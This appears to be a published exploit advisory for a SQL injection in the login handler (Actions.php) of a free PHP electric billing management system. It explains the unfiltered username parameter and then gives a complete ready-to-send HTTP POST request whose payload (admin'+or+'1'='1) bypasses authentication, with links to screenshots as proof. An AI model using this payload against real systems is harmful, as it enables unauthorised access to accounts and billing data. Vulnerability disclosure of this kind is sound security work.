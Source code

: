 electric-billing-management-system Action.php SQL-inject

Exploit Title: electric-billing-management-system Action.php SQL-inject

Exploit Author: webraybtl@webray.com.cn inc

Vendor Homepage: https://www.sourcecodester.com/php/14967/electric-billing-management-system-php-and-sqlite-free-source-code.html

Software Link: https://www.sourcecodester.com/php/14967/electric-billing-management-system-php-and-sqlite-free-source-code.html

CMSName: electric-billing-management-system

Tested on: Windows, Apache ,Mysql

Description

The reason for the SQL injection vulnerability is that the website application did not verify the validity of the data submitted by the user to the server (such as type, length, business parameter validity, etc.), nor did it effectively filter the data input by the user with special characters, thus directly inputting the user's input into the database for execution. This exceeded the expected result of the original design of the SQL statement. The system did not filter the username parameter content correctly in the Actionphp file, resulting in SQL injection using a universal password to bypass login restrictions

    Payload used:
    
    POST /electric_billing_0/electric_billing/Actions.php?a=login HTTP/1.1
    Host: 192.168.2.107
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
    Accept: application/json, text/javascript, */*; q=0.01
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Content-Length: 40
    Origin: http://192.168.2.107
    Connection: close
    Referer: http://192.168.2.107/electric_billing_0/electric_billing/admin/login.php
    Cookie: PHPSESSID=g06tfgab6s50lnkbbi55rl10bb
    Priority: u=0
  
    username=admin'+or+'1'%3D'1&password=123
Proof of Concept
![image](https://github.com/user-attachments/assets/1fb089d2-a1a1-45a5-a0b4-c18582d7ae52)

![f7e6c0938af23e98a2b858eac7728b7](https://github.com/user-attachments/assets/d3aec4c3-1f54-45ba-a60c-3889e570db1e)
![image](https://github.com/user-attachments/assets/48c548b5-f81c-42e8-ae57-9f847dbf5702)



